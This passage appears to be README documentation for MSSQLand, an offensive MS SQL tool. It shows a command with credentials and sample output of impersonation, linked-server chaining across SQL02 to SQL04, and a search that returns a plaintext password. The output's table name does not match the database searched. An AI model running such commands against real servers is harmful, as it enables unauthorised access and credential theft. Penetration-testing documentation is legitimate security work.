 | Enumeration | Description                |
| ----------- | -------------------------- |
| servers     | Search for MS SQL Servers. |

## Output

And yes, all the output tables are Markdown-friendly and can be directly copied and pasted into your notes. For example, running this command:
```shell
.\MSSQLand.exe /h:SQL01:Moulinier /u:Jacquard /p:"Fr@nce1940/Gaulle" /c:local /l:SQL02:webapp03,SQL03:webapp04,SQL04:Merlaux /a:tables agents
```

Create the following output:
```txt
===========================================
         Executing from: SQL01
    Time Zone ID: Romance Standard Time
  Local Time: 13:42:48, UTC Offset: 01:00
===========================================

===========================================
  Start at 2025-01-17 12:42:48:53388 UTC
===========================================

[>] Trying to connect with LocalCredentials
[+] Connection opened successfully
|-> Server: localhost,1433
|-> Database: master
|-> Server Version: 15.00.2000
|-> Client Workstation ID: WS-445c74
|-> Client Connection ID: b7c172a7-c349-4268-a466-285d2af89fbb
[i] Logged in on SQL01 as Jacquard
|-> Mapped to the user dbo
[i] You can impersonate anyone on SQL01 as a sysadmin
[+] Successfully impersonated user: Moulinier
[i] Server chain: SQL02 -> SQL03 -> SQL04
[i] Logged in on SQL04 as Merlaux
|-> Mapped to the user guest

[>] Executing action 'Search' against SQL04
|-> Searching for 'pass' in database 'agents'

[+] Found 'pass' in column headers:

| FQTN                   | Header | Ordinal Position |
| ---------------------- | ------ | ---------------- |
| [agents].[dbo].[users] | pass   | 3                |

[+] Found 'pass' in [music].[dbo].[users] rows:

| id | name  | pass               |
| -- | ----- | ------------------ |
| 7  | Calot | password04/06/1958 |

[+] Search completed.

===========================================
   End at 2025-01-17 12:42:48:66109 UTC
       Total duration: 0.13 seconds
===========================================
```
